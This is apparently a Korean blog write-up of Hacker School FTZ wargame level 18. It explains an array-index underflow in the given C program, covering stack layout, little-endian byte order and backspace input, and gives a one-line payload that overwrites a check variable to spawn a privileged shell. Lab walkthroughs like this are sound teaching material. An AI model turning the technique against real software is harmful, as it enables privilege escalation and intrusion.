 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 18"
description: "Do you know the ?"
comments: true
categories: FTZ
---
```


<img data-action="zoom" src='{{ "assets/ftz/level18/1.jpg" | relative_url }}' alt='relative'>  

## 1) level18/why did you do it 입력해 로그인  
 
``` c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

<img data-action="zoom" src='{{ "assets/ftz/level18/2.png" | relative_url }}' alt='relative'>  

코드를 살펴보면,  
1. count 변수는 string 배열의 인덱스 번호를 저장  
2. 변수가 스택에 쌓이는 순서는  

<img data-action="zoom" src='{{ "assets/ftz/level18/3.png" | relative_url }}' alt='relative'>  

3. check 변수에 0xdeadbeef 값을 넣어줘야 함  
4. 입력 방법으로는 string 배열에 표준입력으로 문자 한 개씩 입력 받음  

코드 내용을 분석한 결과 string 배열을 넘어서서 check 변수에 값을 대입해야 하는 걸로 보입니다.  
string\[count\] = x 코드는 string\[count\] 값이 가리키는 주소에 x 값을 입력하라는 의미입니다.  

그러면 string 배열의 BOF를 일으켜 x에는 0xdeadbeef 값을 넣어주고 string\[count\]는 check를 가리키도록 해야 합니다.  

## 2) string\[count\]가 check를 가리키는 방법  

<img data-action="zoom" src='{{ "assets/ftz/level18/4.png" | relative_url }}' alt='relative'>  

``` c
// test.c
#include <stdio.h>
int main() {
        int i;
        char var1 = 'b';
        char var[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
        char var2 = 'a';
        char var3 = 'c';

        printf("*var = %c\n", *var);

        for (i=0; i<10; i++)
                printf("*var+%d = %c\n", i, *var+i);

        printf("var[-1] = %c\n", var[-1]);
        printf("var[10] = %c\n", var[10]);
        printf("var[-2] = %c\n", var[-2]);

        return 0;
}
```

위의 소스코드를 실행하면 어떤 값을 출력할까요?  

<img data-action="zoom" src='{{ "assets/ftz/level18/5.png" | relative_url }}' alt='relative'>  

var\[-1\]이 가리키는 주소에 들어있는 값을 출력하니 'a'가 출력되었습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/6.png" | relative_url }}' alt='relative'>  

gdb로 test 실행파일을 살펴보니 아래 그림처럼 변수가 스택에 저장되어 있습니다.  

배열의 값이 스택에 쌓이는 순서는 스택의 낮은 주소부터 높은 주소로 순서대로 쌓이며,  
변수가 스택에 쌓이는 순서는 마지막에 선언된 변수부터 처음 선언된 변수 순서대로 쌓이는 것을 확인할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/7.png" | relative_url }}' alt='relative'>  

그래서 var\[-1\]은 \*var-1을 의미하여 var2 변수에 들어있는 값이 출력된 것 입니다.  

<hr>

앞서 살펴본 내용을 고려하면 string\[count\]가 check를 가리키기 위해선 count가 -1 값을 가지고 있으면 됩니다.  

count는 초기값이 0이므로 0x08을 입력하면 -1이 될 것입니다.  

## 3) 0x08 입력하여 0xdeadbeef 값 입력하기  

char 배열은 문자 하나를 읽기 위해 1 byte씩 주소를 이동합니다. (만약 int 배열이었으면 이와 같은 이유로 정수 하나를 읽기 위해 4 byte씩 주소를 이동합니다.)  
따라서 char 배열의 인덱스가 int 변수 하나에 값을 넣기 위해서는 4번의 주소 이동이 있어야 합니다.  

또한, 리틀 엔디안 형식으로 값을 넣어줘야 하기 때문에 0xdeadbeef를 한 바이트씩 잘라 '\xef', '\xbe', '\xad', '\xde' 순으로 넣어줘야 합니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/8.png" | relative_url }}' alt='relative'>  

``` c
#include <stdio.h>
int main() {
        char tmp[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
        int atme;
        int count = -1;

        tmp[count-3] = 0xef;
        tmp[count-2] = 0xbe;
        tmp[count-1] = 0xad;
        tmp[count-0] = 0xde;

        if (atme == 0xdeadbeef)
                printf("good");

        return 0;
}
```

<img data-action="zoom" src='{{ "assets/ftz/level18/9.png" | relative_url }}' alt='relative'>  

tmp 문자열 배열보다 atme 정수형 변수가 스택에 먼저 쌓여 스택에서 더 낮은 주소에 위치하고 있습니다.  
따라서 tmp 문자열 배열의 인덱스가 스택의 더 낮은 주소를 가리키면 atme 변수를 가리킬 수 있습니다.  

또한, atme 정수형 변수는 4 byte이므로 문자열 배열인 tmp는 4 byte 뒤로 이동하여 1 byte씩 원하는 값을 입력해야 하고,  
리틀 엔디안 형식으로 값을 입력해야 하므로 입력하고자 하는 값을 한 바이트씩 잘라 뒤에서부터 입력해줍니다.  

그러면 위와 같이 atme 변수에 0xdeadbeef 값이 들어가 good 문자열을 출력하는 걸 볼 수 있습니다.  

## 4) attackme에 적용하기  

3번의 내용을 바로 attackme에 적용하면,  

``` bash
(python -c 'print "\x08"*4+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level18/10.png" | relative_url }}' alt='relative'>  

level19의 비밀번호를 획득할 수 있습니다.  